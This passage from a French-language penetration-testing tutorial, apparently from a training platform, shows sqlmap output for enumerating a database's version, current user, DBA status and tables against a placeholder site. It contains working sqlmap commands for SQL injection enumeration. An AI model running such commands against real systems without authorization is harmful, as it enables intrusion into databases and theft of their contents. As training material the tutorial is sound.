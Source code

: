 ```
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/

```

À partir de l'exemple ci-dessus, nous pouvons voir que la version de la base de données est assez ancienne (MySQL 5.1.41 - de novembre 2009) et que le nom d'utilisateur actuel est `root`, alors que le nom actuel de la base de données est `testdb`.

Remarque : L'utilisateur « root » dans le contexte de la base de données n'a dans la grande majorité des cas aucune relation avec l'utilisateur du système d'exploitation « root », autre que celle représentant l'utilisateur privilégié dans le contexte du SGBD. Cela signifie essentiellement que l'utilisateur de la base de données ne doit avoir aucune contrainte dans le contexte de la base de données, tandis que les privilèges du système d'exploitation (par exemple, écriture du système de fichiers dans un emplacement arbitraire) doivent être minimalistes, du moins dans les déploiements récents. Le même principe s'applique pour le rôle générique « DBA ».

* * * * *

Énumération de table
--------------------

Dans les scénarios les plus courants, après avoir trouvé le nom de la base de données actuelle (c'est-à-dire `testdb`), la récupération des noms de table se ferait en utilisant l' `--tables`option et en spécifiant le nom de la base de données avec `-D testdb`, comme suit :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+

```
